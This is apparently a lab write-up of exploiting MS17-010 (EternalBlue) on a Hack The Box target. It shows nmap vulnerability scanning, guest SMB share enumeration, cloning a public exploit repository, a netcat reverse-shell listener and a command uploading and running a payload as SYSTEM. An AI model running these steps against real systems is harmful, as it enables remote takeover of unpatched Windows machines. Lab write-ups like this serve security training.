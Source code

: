# EternalBlue

## EternalBlue

MS-17-010, also known as ETERNALBLUE, is an unauthenticated remote code execution vulnerability in Windows SMB that was made famous by the Shadow Brokers' publication and use in May 2017 WannaCry worm.

Metasploit's MS17-010 exploits are far more stable than their Python script counterparts. If you're doing this in the real world, Metasploit is a great tool to use.

## Enumeration

We can use Nmap **vuln nse scripts** to find vulnerable versions of SMB:

```text
❯ sudo nmap -p 445 -script vuln -oA scans/nmap-smbvulns 10.10.10.40
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-05 12:10 EDT
Nmap scan report for 10.10.10.40
Host is up (0.080s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

Nmap done: 1 IP address (1 host up) scanned in 27.02 seconds
```

## Exploitation

### Manually - NO Metasploit

**SMB Authentication:**

**smbclient** doesn't error out:

```text
❯ smbclient -N -L //10.10.10.40/Share

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	Share           Disk
	Users           Disk
```

**smbmap** needs a **user** or a **password** string to authenticate for some reason:

```text
❯ smbmap -H 10.10.10.40
[+] IP: 10.10.10.40:445	Name: 10.10.10.40
❯ smbmap -u 'anything' -H 10.10.10.40
[+] Guest session   	IP: 10.10.10.40:445	Name: 10.10.10.40                                     
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	IPC$                                              	NO ACCESS	Remote IPC
	Share                                             	READ ONLY	
	Users                                             	READ ONLY	
❯ smbmap -p 'anything' -H 10.10.10.40
[+] Guest session   	IP: 10.10.10.40:445	Name: 10.10.10.40                                     
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	IPC$                                              	NO ACCESS	Remote IPC
	Share                                             	READ ONLY	
	Users                                             	READ ONLY	
```

#### Exploit

Worawit has the greatest MS17-010 Python scripts I've seen. These are effective, but they are a little difficult to use. That project was forked by helviojunior, who included a single send and execute.py file, which is quite useful. It's just an updated version of the original zzz exploit.py script, with the addition of the ability to upload a file and run it as system.

```text
git clone https://github.com/helviojunior/MS17-010
```

**Credentials Update**

Just like with `smbmap`, when we try to run this with username as an empty string, it won’t authenticate. However, if we just add any string into the username, it will then work.

Modify the exploit, add any string to the username variable:

![send\_and\_execute.py USERNAME variable](../.gitbook/assets/image.png)

### Exploit manually 

Set a listener with **nc**:

```text
sudo rlwrap nc -lvnp 443
```

Then execute the exploit with:

```text
~/htb/blue/MS17-010 master* 26s
impacket-venv ❯ python send_and_execute.py 10.10.10.40 rev.exe
```







